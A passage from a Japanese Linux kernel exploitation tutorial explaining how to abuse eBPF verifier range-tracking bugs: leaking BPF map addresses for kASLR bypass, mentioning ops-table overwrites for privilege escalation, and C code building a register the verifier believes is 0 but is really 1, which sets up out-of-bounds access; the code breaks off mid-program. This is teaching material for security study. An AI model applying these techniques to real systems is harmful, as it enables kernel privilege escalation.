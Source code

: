 0x110引いたところは、メタデータを含むBPFマップの先頭になります。今回は配列形式で作っているので、[`bpf_array`構造体](https://elixir.bootlin.com/linux/v5.18.14/source/include/linux/bpf.h#L1146)が存在します。例えば先頭にある0xffffffff81c124a0という値は、[`bpf_map`構造体](https://elixir.bootlin.com/linux/v5.18.14/source/include/linux/bpf.h#L158)の`ops`という関数テーブルになります。今回は使いませんが、eBPFの攻撃ではこの`ops`を書き換えて権限昇格する手法もあります。

この方法は`adjust_ptr_min_max_vals`のコードを知っていないと気づけませんが、実際にはこれを利用しなくてもexploitが書けます。（例題を参照）

マップのアドレスを持っていると以降のkASLRリークが簡単になるため、アドレスは持っておきましょう。マップのfdを渡すと（最後に1を引いた）アドレスを返してくれるように、関数化しておくとコードが綺麗になります。

<div class="balloon_l">
  <div class="faceicon"><img src="../img/wolf_normal.png" alt="オオカミくん" ></div>
  <p class="says">
    root権限では標準でポインタのリークが許可されているから、eBPFのexploitをデバッグするときは必ず一般ユーザー権限での動作確認も忘れないでね。
  </p>
</div>

## 範囲外参照
[前章](verifier.html)でも少し触れましたが、2022年現在はALU sanitationという緩和機構が入っているため、かつてのように単純には範囲外参照ができません。
しかし、まずは「単純な」範囲外参照を試してみましょう。
実は、ALU sanitationは[`bpf_bypass_spec_v1`](https://elixir.bootlin.com/linux/v5.18.14/source/include/linux/bpf.h#L1469)という関数がtrueを返したときは[スキップ](https://elixir.bootlin.com/linux/v5.18.14/source/kernel/bpf/verifier.c#L7196)されます。この関数はroot権限ではtrueを返すので、root権限では今でも範囲外参照を試せます。
そこで、まずはroot権限で「単純な」範囲外参照を試してみましょう。

### 追跡が壊れた定数の作成
検証器の誤りを悪用する上で便利なのは、「検証器がXと思っているが実際にはYである定数（XX!=Y）」を作ることです。とくにX=0,Y!=0のときは、何を掛けても検証器は0と判断するので、範囲外参照のオフセットを作るのに都合が良いです。
まずは「検証器が0と思っているが実際には1である定数」を作ってみましょう。

今、R1は`u32_min_value`が1で`u32_max_value`が0になっています。反対に、R2に`u32_min_value`が0で`u32_max_value`が1である（壊れていない）値を入れます。ここでR1とR2の加算を考えると、範囲は`[1,0]+[0,1]=[1,1]`になることが分かります。

最小値、最大値が同じレジスタは、MOVなどのタイミングで定数扱いになります。R1の実際値は1でしたが、R2は0か1を取ります。したがって、加算結果は`[1,2]`でなければなりません。しかし、検証器は加算後のR1を定数1と判断してしまうため、実際には2が入っている状況が生まれます。
あとはR1から1を引けば、目的の「検証器は0と思っているが実際には1である定数」が作れます。

`u32_min_value`が0で`u32_max_value`が1であるR2は、論理・算術演算を組み合わせるか、条件分岐で1より大きいケースを捨てることで作成できます。
```c
  // BPFマップを作成
  int mapfd = map_create(8, 1);
  val = 1;
  map_update(mapfd, 0, &val);

  /* BPFプログラム */
  struct bpf_insn insns[] = {
    // R0 --> &map[0]
    BPF_ST_MEM(BPF_DW, BPF_REG_FP, -0x08, 0), // key=0
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -8),
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem), // map_lookup_elem(mapfd, &k)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),
    BPF_EXIT_INSN(),
    BPF_MOV64_REG(BPF_REG_9, BPF_REG_0),

    // R1 --> var_off=(value=0; mask=0xffffffff00000000)
    BPF_LDX_MEM(BPF_DW, BPF_REG_1, BPF_REG_9, 0),
    BPF_ALU64_IMM(BPF_RSH, BPF_REG_1, 32),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_1, 32),
    // R2 --> var_off=(value=0xfffffffe00000001; mask=0)
    BPF_MOV64_IMM(BPF_REG_2, 0xfffffffe),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 1),
    // R1 --> (s32_min=1, s32_max=0, u32_min=1, u32_max=0) / 実際値:1
```

[^1]: Linuxカーネルのバージョンは5.18.14です。
[^2]: スタックの範囲内だが、値の範囲外